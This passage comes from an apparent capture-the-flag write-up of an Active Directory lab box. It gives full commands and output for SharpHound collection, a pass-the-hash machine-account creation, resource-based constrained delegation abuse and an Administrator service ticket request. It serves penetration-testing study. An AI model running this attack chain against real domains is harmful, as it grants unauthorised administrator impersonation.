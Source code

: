 ```powershell
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\L.Livingstone\Documents\ -OutputPrefix "sharpaudit"
```
use sharphound to collect the domain data. so we will analyze with bloodhound.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/16405635-7570-4b7c-9055-e8b40899083b)

using bloodhound to enumerate the data coollected, we can see that the user has a `Genericall` on `resourced.resourced.local`. let's abuse it.

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-addcomputer -dc-ip 192.168.213.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'NIGHTHAWK$' -computer-pass 'HACKER1!'  resourced.local/l.livingstone
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Successfully added machine account NIGHTHAWK$ with password HACKER1!.
```
first we create a machine account in the domain by using user `l.livingstone` priv.

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-rbcd -delegate-from 'NIGHTHAWK$' -delegate-to 'RESOURCEDC$' -action 'write' 'resourced.local/l.livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -dc-ip 192.168.213.175
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] NIGHTHAWK$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     NIGHTHAWK$   (S-1-5-21-537427935-490066102-1511301751-4101)
```
We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-getST -spn 'cifs/resourcedc.resourced.local' -impersonate 'Administrator' 'resourced/NIGHTHAWK$:HACKER1!' -dc-ip 192.168.213.175
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "Administrator" for. Impacket's getST.py example script can be used for that purpose.

```shell
export KRB5CCNAME=./Administrator.ccache
```
export KRB5Cname
